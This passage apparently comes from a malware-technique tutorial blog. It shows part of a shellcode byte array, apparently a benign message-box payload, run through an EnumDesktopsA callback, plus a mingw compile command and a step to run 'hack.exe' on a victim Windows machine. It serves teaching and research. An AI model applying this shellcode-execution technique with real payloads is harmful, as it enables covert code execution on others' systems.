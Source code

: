 ```cpp
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

As usual some printing logic is just for checking correctness of logic and running payload via [EnumDesktopsA](/tutorial/2022/06/27/malware-injection-20.html).      

### demo

Let’s go to see everything in action. Compile it (in my `linux` machine):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```

![cryptography](/assets/images/143/2024-12-29_11-07.png){:class="img-responsive"}      

Then, just run it in the victim's machine (`windows 11 x64` in my case):    

```powershell
.\hack.exe
```
